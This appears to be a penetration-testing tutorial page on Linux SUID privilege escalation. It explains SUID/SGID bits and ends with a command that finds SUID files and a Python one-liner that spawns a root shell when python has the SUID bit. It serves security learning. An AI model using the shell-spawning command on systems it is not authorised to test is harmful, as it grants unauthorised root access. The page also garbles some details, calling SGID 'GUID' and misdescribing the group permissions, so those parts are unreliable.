 # SUID Privilege Escalation

## What is SUID?

**Set User ID (SUID)** is a special permission in Unix/Linux systems. When a file has the SUID bit set, it allows the file to be executed with the privileges of the file's owner, regardless of the user running the file. Typically used to grant regular users temporary elevated permissions to execute specific tasks.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Indicated by `rws` for the owner’s permission. When the **SUID** bit is set (`s` instead of `x` for execute), any user who runs this file does so with the **permissions of the file owner**. This is commonly used when a file is owned by **root** but allows regular users to execute it with root privileges.

The next three characters (`rws`) represent the permissions for the **group** that owns the file. Similar to the owner permissions, **read (r)**, **write (w)**, and **execute (x)** are granted or denied to the group. When the **GUID (Set Group ID)** is set, the execute bit for the group is replaced with an `s`, indicating that the file will be run with the group’s privileges.

The **GUID** is similar to SUID but applies to the **group**. It allows anyone executing the file to run it with the permissions of the group that owns the file. In this example, the group permission includes `s`, showing that the GUID bit is set.

## How to Identify SUID Files

SUID files can be identified by searching for files with the `s` bit in the owner's execute permission field.

```bash
find / -perm -4000 2>/dev/null
```

Example of an SUID file:

```bash
-rwsr-xr-x 1 root root /usr/bin/passwd
```

In this example:

* `rws` indicates the SUID bit is set.
* The owner is **root**, meaning any user executing this file does so with **root** privileges.

## How to exploit SUID Binaries to escalate privilege.

Certain binaries, like `su`, `sudo`, `passwd`,etc typically have the SUID bit set on all Linux systems. These are essential system binaries and are generally secure. However, vulnerabilities are more likely to be found in non-system binaries. To begin exploring potential exploitation methods, checking GTFObins for any relevant techniques is a great first step.

{% embed url="https://gtfobins.github.io/#+suid" %}

For an example, if suid is set on python then we can exploit it to escalate privileges

**Verify SUID on python**

```
ls -l /usr/bin/python
-rwsr-xr-x 1 root root /usr/bin/python

```

Create a Python One-Liner for Privilege Escalation

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-i")'
```

Verifying privilege escalation

```
whoami
root
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

